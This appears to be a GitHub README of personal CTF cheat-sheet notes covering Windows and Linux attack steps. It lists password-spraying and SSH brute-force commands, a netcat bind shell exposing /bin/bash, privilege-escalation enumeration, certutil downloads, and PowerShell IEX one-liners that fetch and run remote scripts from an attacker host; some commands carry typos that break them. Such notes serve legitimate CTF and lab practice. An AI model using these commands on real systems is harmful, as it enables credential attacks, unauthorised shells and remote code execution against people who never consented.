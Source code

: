 # ctf_notes
notes gathered from doing numerous CTFs to help with further CTFs

Windows & *nix:
<p> password spraying:
<p> - crackmapexec [module] -u [users.txt] -p [passwords.txt] [ip or ip range]
<p> bruteforce
<p> - medusa -h [ip] -U [users.txt] -P [passwords.txt] -M [module] [ip] (more options may be required, example used was SSH module)


upgrade shell using python pty library and adds auto complete for steps 2+ :
1 - python -c 'import pty;pty.spawn("/bin/bash")'
2 - CTRL z
3 - stty raw -echo
4 - fg <enter key>
5 - export TERM=xterm

known hosts ssh file will show all hosts the host has SSH'd into

- command to reset a broke terminal session
reset

- mysql syntax for navigation:
show databases; (shows available databases)
use <database name>; (selects database to use)
show tables; (shows tables in database)
describe <table name>; (shows more information on values inside table)
select <table value> from <table>; (shows items inside the table values of the table)
  
- file upload:
curl http://<ip>:<port>/<file> -output <file>    (works with powershell and linux)






*nix:
common privilege escalation techniques:
- seeing if any commands can be run as sude:
sudo -l
- check which programs are avilable on the system for priviledge escalation and send errors away from output
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
- download all FTP contents (--no-passive if passive is not allowed):
wget -m htp:anonymous:anonymous@<remote IP> (--no-passive) 
- bind shell:
(victim) nc -lp <port> -e /bin/bash  (attacker) rlwrap nc <ip> <port>
- listing file/ directory structure:
find . 
- listing file structure and look for specific file/ directory name
find . | grep -i <word to look for>
- show all running processes:
ss -lntp
- 







Windows:

windows powershell locations:
c:\Windows\System32\    - 32 bit
c:\Windows\SysWow64\    - 32 bit
c:\Windows\SysNative\   - 64 bit


File download:
cmd.exe
- certutil -urlcache -f http://<ip>:<port>/<file> <file output>

powershell:
- file upload (will auto run any .ps1 scripts): 
powershell IEX(New-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")
- using powershell directly causes reverse shell crash:
echo 'IEX(Net-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")' | powershell -noprofile - 
  
